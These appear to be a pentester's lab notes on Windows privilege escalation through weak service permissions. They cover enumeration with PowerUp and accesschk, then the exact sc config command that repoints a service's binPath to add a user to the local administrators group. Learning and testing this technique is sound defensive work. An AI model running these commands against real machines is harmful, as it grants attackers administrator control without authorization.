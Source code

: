 # Service Permissions 

## Binary Path 

- It tells Windows which executable file (program or service binary) should run when the service starts
- Basically, it’s the path to the .exe (or .dll under svchost) that implements the service 
- If an attacker has permission to modify a service’s configuration (SERVICE_CHANGE_CONFIG), they can change the binPath to point to a malicious executable

**Victim** 

```
// to find the vulnerability using the powerup and now open powershell with execution policies bypass 
powershell -ep bypass 
. .\PowerUp.ps1 
Invoke-AllChecks 

// for manual checking 
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

// or 
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone * 

// Notice that the output suggests that the everyone has the “SERVICE_CHANGE_CONFIG” permission which could lead to change the path of the executable 

// now make the exploitation 
sc config daclsvc binpath= "net localgroup administrators user /add"

// check the binpath
sc qc daclsvc
sc start daclsvc

// now we made the user as administrator 
net localgroup administrators 
Administrator 
user 
```
